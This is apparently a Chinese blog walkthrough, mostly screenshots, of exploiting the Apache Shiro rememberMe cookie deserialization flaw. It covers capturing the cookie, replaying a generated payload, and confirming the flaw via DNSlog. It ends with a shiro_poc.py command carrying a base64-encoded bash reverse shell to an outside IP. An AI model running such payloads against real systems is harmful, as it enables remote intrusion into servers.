 
![](https://img-blog.csdnimg.cn/20200502110743149.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200502120524299.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



访问网站，用正确的用户名密码登陆，记得勾选RememberMe字段



![](https://img-blog.csdnimg.cn/20200502122719635.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



登陆成功后，抓包，会发现 Cookie 中有 rememberMe 字段



![](https://img-blog.csdnimg.cn/20200502122825390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



将生成的 payload.cooke 里的内容把Cookie字段全部替换掉。注意：JSESSIONID字段也替换。然后重放



![](https://img-blog.csdnimg.cn/20200502110902482.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



DNSlog平台接收到请求，说明存在漏洞



![](https://img-blog.csdnimg.cn/20200502110843255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 反弹shell



这里反弹shell的命令需要进行加密才能执行，加密网站：[java.lang.Runtime.exec() Payload Workarounds - @Jackson\_T](http://www.jackson-t.ca/runtime-exec-payloads.html "java.lang.Runtime.exec() Payload Workarounds - @Jackson_T")



![](https://img-blog.csdnimg.cn/20200502163316529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后重新调用shiro\_poc.py生成rememberMe的值



```
python3 shiro_poc.py "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81Ny4xMTQuMTM5LjI0OS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```




![](https://img-blog.csdnimg.cn/20200502163353583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
